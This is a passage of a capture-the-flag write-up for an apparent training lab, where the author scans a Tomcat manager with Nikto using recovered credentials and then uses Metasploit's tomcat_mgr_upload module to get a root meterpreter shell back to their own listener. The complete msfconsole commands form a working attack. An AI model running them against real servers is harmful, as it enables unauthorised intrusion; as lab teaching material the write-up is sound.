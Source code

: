 This gets us another flag!

* FLAG 4: What is bob's password to the protected part of the website? -- `bubbles`

While it probably won't get us any more flags, I'm kinda curious what's in `/protected/`. Unfortunately, the experience is kinda anti-climatic.

```html
<center></br> <img width=150 src="[protected.png](view-source:http://10.10.28.154/protected/protected.png)"> <p>This protected page has now moved to a different port.</p> </center>
```

Oh well.

The CTF does direct us to look at http://10.10.28.154:1234/manager/html (using Bob's password); that's just the Tomcat documentation by the looks of it. But if we throw [Nikto](nikto.md) against it, we can get ourselves another flag.

```bash
nikto -Format txt -host http://10.10.28.154:1234/manager/html -id bob:bubbles -nossl -output tools-r-us.txt
```

The next flag is just looking for the number of "Tomcat documentation" files [Nikto](nikto.md) finds. Unfortunately, these don't get spit out until near the end of [Nikto](nikto.md)'s run, so expect to wait a *long* time!

* FLAG 7: How many documentation files did Nikto identify? -- `5`

Alright, let's switch over to our last two flags, which imply that we can get RCE on this version of Tomcat. It looks like [Apache Tomcat 7.0.88 was released on May 16, 2018](https://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.88). There's no obvious *vulnerability* to exploit for this version, but after searching around a bit on the net I found a guide mentioning that [RCE on Tomcat could be obtained via the "manager" application](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). And, indeed, looking at the info for the corresponding module in [Metasploit](metasploit.md) (`exploit/multi/http/tomcat_mgr_upload`) reveals that we can obtain RCE if we have access to the `/manager/html/upload` component. Which we *do*, because `/manager/html` has the option to "Select WAR file to upload".

Now, `exploit/multi/http/tomcat_mgr_upload` only targets 32-bit Linux, and the server is running a 64-bit build (this can also be found in `/manager/html/`), so we'll use the "Java Universal" target.

```msfconsole
use exploit/multi/http/tomcat_mgr_upload
set HttpPassword bubbles
set HttpUsername bob
set RHOSTS 10.10.28.154
set RPORT 1234
set LHOST 10.13.26.40
exploit
```

And we have a [meterpreter](metasploit.md) shell! Running `getuid` reveals that we're also running as `root`. Ouch.

* FLAG 10: What user did you get a shell as? -- `root`

We'll just drop to `shell` in [meterpreter](metasploit.md) to get the contents of `/root/flag.txt`.
